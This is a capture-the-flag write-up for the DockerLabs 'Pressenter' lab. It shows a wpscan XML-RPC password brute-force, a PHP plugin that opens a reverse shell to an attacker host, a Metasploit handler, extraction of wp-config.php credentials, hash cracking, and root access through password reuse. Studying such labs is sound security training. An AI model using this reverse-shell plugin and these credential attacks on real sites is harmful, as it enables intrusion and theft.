# Pressenter — DockerLabs

| Field      | Value              |
|------------|--------------------|
| Platform   | DockerLabs         |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | WordPress, wpscan, XML-RPC, Malicious Plugin, Meterpreter, wp-config.php, MySQL, credential reuse |

---

## 1. Reconnaissance

```bash
nmap -sV -sC <IP>
```



Port 80 open — WordPress site at `pressenter.hl`. Added to `/etc/hosts` if needed.

---

## 2. WordPress Enumeration & Password Attack

Enumerated users and ran a password attack simultaneously:

```bash
wpscan --url http://pressenter.hl/ -e u \
  --passwords /usr/share/wordlists/rockyou.txt \
  --password-attack xmlrpc -t 20
```





Credentials recovered for a WordPress user.

---

## 3. Reverse Shell via Malicious Plugin

Instead of editing `functions.php` (which requires access to the theme editor), used the **Plugin Upload** method — more reliable and triggers via plugin activation.

WordPress plugins require a specific PHP header to be recognized. Without it, WordPress rejects the upload:

```php
<?php
/**
 * Plugin Name: Reverse Shell Plugin
 * Version: 1.0
 * Author: Pentester
 * License: GPL2
 */

// Reverse shell code below
set_time_limit(0);
$ip = '<KALI-IP>';
$port = 4444;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
```





Set up the Metasploit handler before activating the plugin:

```bash
msfconsole -q
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST <KALI-IP>
set LPORT 4444
exploit
```

Activated the plugin from the WordPress admin dashboard → shell received.

---

## 4. Credential Discovery in wp-config.php

Upgraded to an interactive shell:

```bash
script /dev/null -c bash
```

Read `wp-config.php` to extract database credentials:

```bash
cat /var/www/html/wp-config.php
```



```
DB_USER: admin
DB_PASSWORD: rooteable
DB_NAME: wordpress
```

---

## 5. MySQL Enumeration

Connected to MySQL using the credentials from `wp-config.php`:

```bash
mysql -u admin -p -h 127.0.0.1
# Password: rooteable
```



Dumped WordPress user hashes:

```sql
USE wordpress;
SELECT user_login, user_pass FROM wp_users;
```



Recovered hashes for users `pressi` and `hacker`. WordPress stores passwords as phpass hashes (not MD5). Cracked with hashcat:

```bash
hashcat -m 400 hashes.txt /usr/share/wordlists/rockyou.txt
```



Found plaintext password for user `enter`: `kernellinuxhack`

---

## 6. Lateral Movement & Root via Credential Reuse

`enter` was a system user. Switched to their account:

```bash
su enter
# Password: kernellinuxhack
```



Attempted to reuse the password for root:

```bash
su root
# Password: kernellinuxhack
```



It worked — the root account shared the same password as `enter`.



---

## Key Takeaways

**WordPress plugins require a valid header to be installed.** The `Plugin Name:` comment in the PHP docblock is what WordPress checks. Without it, the upload fails silently. This is easy to bypass by adding the header.

**`wp-config.php` always contains database credentials.** It's the first file to read after landing a WordPress shell. Those credentials often reappear elsewhere on the system.

**WordPress phpass hashes (mode 400 in hashcat) are slower to crack than MD5.** They use bcrypt-like stretching. Budget time for this — or prioritize other escalation paths.

**Credential reuse between system users and root is surprisingly common.** After recovering any system user's password, always try `su root` with the same password before investing time in more complex escalations.
